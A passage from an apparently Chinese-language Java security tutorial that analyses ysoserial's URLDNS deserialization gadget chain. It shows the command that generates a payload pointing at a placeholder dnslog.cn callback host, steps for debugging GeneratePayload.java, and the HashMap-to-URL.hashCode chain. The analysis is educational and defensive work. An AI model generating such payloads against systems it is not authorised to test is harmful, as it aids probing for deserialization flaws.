 ```bash
$ java -jar ysoserial-all.jar URLDNS "http://xxx.dnslog.cn" > dnslog.ser

```

### 参数配置
在`pom.xml`文件中找到入口文件，也就是`GeneratePayload.java`

```xml
<manifest>
  <mainClass>ysoserial.GeneratePayload</mainClass>
</manifest>
```
在`GeneratePayload.java`的`main`函数处添加断点，然后右上角修改配置，添加所需参数，最后点击调试
![Java安全漫谈-URLDNS篇-1](assets/Java安全漫谈-URLDNS篇-1.png)

## 利用链分析
利用链：

```java
Gadget Chain:
  HashMap.readObject()
    HashMap.putVal()
      HashMap.hash()
        URL.hashCode()
```

### 获取类对象
> 这部分会先获取所调用的 Gadget 的类对象，这里是 URLDNS 的类对象，后续其他 Gadget 也是同理
